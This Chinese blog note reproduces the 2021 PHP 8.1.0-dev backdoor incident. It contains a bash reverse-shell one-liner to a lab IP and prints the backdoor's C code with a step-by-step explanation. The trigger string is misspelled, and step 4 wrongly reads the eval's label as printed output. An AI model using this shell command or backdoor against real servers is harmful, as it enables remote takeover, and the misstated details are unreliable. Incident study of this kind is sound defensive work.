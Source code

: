 ```yaml
---
title: PHP 8.1.0-dev 开发版本后门事件
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-28T17:50:00+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


**漏洞介绍:**

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码

https://news-web.php.net/php.internals/113838

**漏洞复现**

![8.1](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\8.1.png)

能够以

```
zerdiumsystem
```

的形式执行任意代码，也可以通过该后门进行反向shell的链接

```
/bin/bash -c 'exec bash -i >& /dev/tcp/192.168.121.135/4444 0>&1'
```

![8.1shell](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\8.1shell.png)

**后门代码**

```c
if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
```

这段代码的作用是检查 HTTP 请求头中的 "User-Agentt" 字段是否包含字符串 "zerodium"，如果包含，则执行一个 PHP 代码段,具体流程如下

1. 检查全局变量 PG(http_globals)[TRACK_VARS_SERVER] 是否为数组类型或者是否已经被自动注册为全局变量 "_SERVER"，如果是则继续执行。
2. 使用 zend_hash_str_find 函数在 PG(http_globals)[TRACK_VARS_SERVER] 中查找 "HTTP_USER_AGENTT" 字段，并将其值存储到 enc 变量中。
3. 将 enc 变量转换为字符串类型，并使用 strstr 函数检查字符串中是否包含 "zerodium" 子字符串。如果包含，则继续执行。
4. 使用 zend_eval_string 函数执行一个 PHP 代码段，该代码段是从 User-Agentt字段的第八个字符开始的字符串，它会输出一条提示信息 "REMOVETHIS: sold to zerodium, mid 2017"。

